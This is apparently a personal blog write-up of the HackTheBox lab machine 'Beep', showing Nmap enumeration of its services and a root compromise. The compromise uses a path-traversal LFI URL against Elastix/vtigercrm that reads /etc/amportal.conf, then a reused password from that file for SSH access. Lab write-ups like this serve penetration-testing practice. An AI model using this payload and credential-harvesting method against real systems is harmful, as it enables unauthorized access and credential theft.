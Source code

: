 ```yaml
---
layout: post
title:  "HackTheBox - Beep Writeup"
categories: HackTheBox
tags: [pentesting]
draft: false
---
```


# Introduction

This is a writeup for the machine "Beep" (10.10.10.7) on the platform HackTheBox. HackTheBox is a penetration testing labs platform so aspiring pen-testers & pen-testers can practice their hacking skills in a variety of different scenarios.

## Enumeration

### NMAP

As always we start off with our full TCP port scan using NMAP - this box is running quite a lot of services **but** don't let that scare you! We follow the same enumeration process so let's not worry that its any different just because there are more ports!

```
Nmap scan report for 10.10.10.7
Host is up (0.090s latency).
Not shown: 65519 closed ports
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: STLS AUTH-RESP-CODE UIDL RESP-CODES IMPLEMENTATION(Cyrus POP3 server v2) PIPELINING APOP USER TOP EXPIRE(NEVER) LOGIN-DELAY(0)
111/tcp   open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1            742/udp  status
|_  100024  1            745/tcp  status
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: LITERAL+ CATENATE MAILBOX-REFERRALS MULTIAPPEND SORT=MODSEQ URLAUTHA0001 QUOTA X-NETSCAPE ATOMIC CONDSTORE UNSELECT LISTEXT STARTTLS RENAME THREAD=ORDEREDSUBJECT UIDPLUS LIST-SUBSCRIBED ANNOTATEMORE NO THREAD=REFERENCES NAMESPACE ACL OK SORT IMAP4 ID RIGHTS=kxte Completed CHILDREN BINARY IDLE IMAP4rev1
443/tcp   open  ssl/http   Apache httpd 2.2.3 ((CentOS))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Elastix - Login page
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
|_ssl-date: 2019-06-12T19:52:21+00:00; -1h22m20s from scanner time.
745/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql?
|_mysql-info: ERROR: Script execution failed (use -d to debug)
4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax    HylaFAX 4.3.10
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-server-header: MiniServ/1.570
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix

Host script results:
|_clock-skew: mean: -1h22m20s, deviation: 0s, median: -1h22m20s
```

As you can see there are a bunch of different things running but that's not a problem! Let's first browse to the box on port 80 and see what we can find, in the background we'll run a directory scan on port 80 & 443 like usual.

### HTTP

Upon browsing to the box on port 80 I could see they were using something called "Elastix", the same software was running on port 443 so I cancelled my port 443 directory scanning and left the port 80 scan running.

![Elastix Login](/../../assets/images/2019-06-12-Beep/Elastix.png)

I decided to search for some exploits for "Elastix" despite not having a software version just because its a quick thing to do and one the easier boxes such as this one it never hurts to do a quick search as usually the exploitation process is very simple! Funnily enough when I searched this, the first thing that came up was an LFI & the second thing that appeared was an RCE - both work however I used the LFI in my initial run through so that's what I'll explain here.

## Exploitation

In order to exploit the LFI, all we had to do was browse to the following address `https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action`. When browsing to the location you can see there are lots of usernames & passwords everywhere, interesting! I used `CTRL+F` to search for `password` and then I skipped through the file until I noticed this `jEhdIekWmdjE` a few times. With this being an easier box I decided to try & SSH with this address, perhaps they're password re-using, turns out there were!

```
root@KaliAttacker:~/Documents/HTB/Retired/Beep# ssh 10.10.10.7
The authenticity of host '10.10.10.7 (10.10.10.7)' can't be established.
RSA key fingerprint is SHA256:Ip2MswIVDX1AIEPoLiHsMFfdg1pEJ0XXD5nFEjki/hI.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.10.7' (RSA) to the list of known hosts.
root@10.10.10.7's password: 
Last login: Mon Jun 10 14:28:47 2019 from 10.10.14.5

Welcome to Elastix 
----------------------------------------------------
```

Well, that was easy! If you do an `id` you can see we're running as root so no need for privilege escalation, just grab the `user.txt` and `root.txt` and you're done. Beep actually HAS a lot of exploitation methods so if you find yourself with extra time & you're preparing for the OSCP, it might be worth exploiting this one in a variety of ways because there's lots of paths!


